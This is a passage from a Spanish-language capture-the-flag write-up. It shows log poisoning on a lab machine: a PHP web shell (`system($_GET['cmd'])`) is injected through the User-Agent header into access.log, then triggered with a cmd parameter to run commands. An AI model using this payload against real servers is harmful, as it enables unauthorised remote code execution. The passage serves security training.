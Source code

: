 Captura la petición de la **base64** del archivo **access.log** y mandala al **Repeater**:

<p align="center">
<img src="/assets/images/THL-writeup-resident/Captura16.png">
</p>

Vamos a tratar de inyectar una **WebShell** con el siguiente código:
```bash
<?php system($_GET['cmd']);?>
```

Lo inyectamos en la cabecera del **User-Agent** y mandamos la petición:

<p align="center">
<img src="/assets/images/THL-writeup-resident/Captura17.png">
</p>

Observa que obtuvimos un error, pero esto debería infectar el servidor con nuestro código.

Entonces, manteniendo el código en la cabecera **User-Agent** y agregando el parámetro `&cmd=comando` al parámetro `url=`, se debería ejecutar el comando que queramos:
